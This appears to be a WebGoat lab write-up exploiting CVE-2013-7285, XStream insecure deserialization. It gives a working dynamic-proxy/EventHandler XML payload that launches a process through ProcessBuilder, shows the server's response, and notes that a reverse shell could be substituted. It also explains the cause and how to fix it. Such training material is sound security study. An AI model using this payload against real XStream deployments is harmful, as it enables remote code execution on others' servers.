



# Exploiting CVE-2013-7285 (XStream Insecure Deserialization) — WebGoat

**Category:** A6 Vulnerable and Outdated Components
**Lesson:** Vulnerable Components

## Objective

Show that WebGoat's contact-import feature, which deserializes attacker-supplied XML directly into a Java object via an old, vulnerable version of **XStream**, can be abused to achieve remote code execution — not just to tamper with data.

## Vulnerability

XStream converts XML straight into live Java objects via `XStream.fromXML(xml)`. Versions affected by **CVE-2013-7285** don't restrict which classes that XML is allowed to instantiate. An attacker can hand it XML describing something other than the expected data object — including a `java.beans.EventHandler` wired up to invoke an arbitrary method (like `ProcessBuilder.start()`) the moment the object graph is reconstructed. Because deserialization itself triggers the behavior, no further application logic needs to run: just parsing the XML executes the attacker's command.

## Exploitation Steps

1. The lesson expects a contact's XML representation and converts it server-side with `XStream.fromXML(xml)`:

   ```xml
   <contact>
     <id>1</id>
     <firstName>Bruce</firstName>
     <lastName>Mayhew</lastName>
     <email>webgoat@owasp.org</email>
   </contact>
   ```

   Submitting this as-is behaves exactly as intended — WebGoat builds a normal `Contact` object and says so explicitly: *"This means you did not exploit the remote code execution."*

   

2. WebGoat's own test suite for this lesson (`VulnerableComponentsLessonTest.java`, shipped in the WebGoat source) contains the reference payload for triggering the CVE — instead of describing a `Contact`, the XML describes a **dynamic proxy** implementing the `Contact` interface, backed by a `java.beans.EventHandler` that fires `ProcessBuilder.start()` on a target command the moment XStream reconstructs it:

   ```xml
   <contact class="dynamic-proxy">
     <interface>org.owasp.webgoat.lessons.vulnerablecomponents.Contact</interface>
     <handler class="java.beans.EventHandler">
       <target class="java.lang.ProcessBuilder">
         <command>
           <string>calc.exe</string>
         </command>
       </target>
       <action>start</action>
     </handler>
   </contact>
   ```

   

3. Submitted that payload through the lesson's "Enter the contact's xml representation" field and clicked **Go!**. XStream deserialized the proxy, invoked the `EventHandler`, and WebGoat attempted to actually launch `calc.exe` as a subprocess on the server:

   ```
   You successfully tried to exploit the CVE-2013-7285 vulnerability
   java.io.IOException: Cannot run program "calc.exe": error=2, No such file or directory
   ```

   The lesson is marked **complete** even though the command itself failed — `calc.exe` doesn't exist on this (Linux) WebGoat host, but the important part already happened: `ProcessBuilder.start()` was reached and *attempted* to spawn a process purely as a side effect of parsing XML. On a real target, swapping `calc.exe` for a reverse shell, `/bin/sh -c "..."`, or any other command would execute it outright.

   

## Why It Worked

`XStream.fromXML()` was called with no class allow-list / type-permission restriction, on an XStream version old enough to allow the `dynamic-proxy` + `EventHandler` gadget chain by default. The `class="dynamic-proxy"` attribute tells XStream to build a `java.lang.reflect.Proxy` rather than a plain POJO, and `java.beans.EventHandler` is a general-purpose "call this method on this target when any method fires" reflection helper — originally meant for GUI event wiring, but happy to invoke `ProcessBuilder.start()` just as readily. Chaining the two turns "deserialize this XML" directly into "run this OS command," with nothing else about the application needing to be broken first.

This is the textbook shape of insecure deserialization (CWE-502): the vulnerability isn't in application logic at all, it's in trusting a general-purpose object graph builder with attacker-controlled input and no restriction on what kinds of objects it's allowed to construct.

## Remediation

- **Upgrade XStream** past the version affected by CVE-2013-7285 — later releases ship a security framework that denies dangerous classes (like dynamic proxies and `EventHandler`) by default.
- **Use an explicit type allow-list.** `XStream.allowTypes(...)` / `XStream.addPermission(...)` should restrict deserialization to the exact classes the application expects (`Contact`/`ContactImpl` here), rejecting everything else — including proxies and reflection helpers — outright.
- **Avoid deserializing attacker-controlled data into live objects at all** where a safer format will do. A plain data-transfer format validated against a schema (or JSON with a minimal, non-polymorphic mapper) removes this entire class of bug.
- **Keep dependencies patched generally** — this is fundamentally an "outdated component" problem; tracking CVEs for every library in the dependency tree (not just application code) is what would have caught this before it shipped.
- **Least privilege for the process itself:** even with a hardened deserializer, running the application under an account with no ability to spawn arbitrary subprocesses limits the blast radius of any similar gadget chain found later.

## References

- [CVE-2013-7285 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2013-7285)
- [OWASP – Deserialization of Untrusted Data (CWE-502)](https://cwe.mitre.org/data/definitions/502.html)
- [OWASP Cheat Sheet – Deserialization](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- [XStream Security Framework documentation](https://x-stream.github.io/security.html)
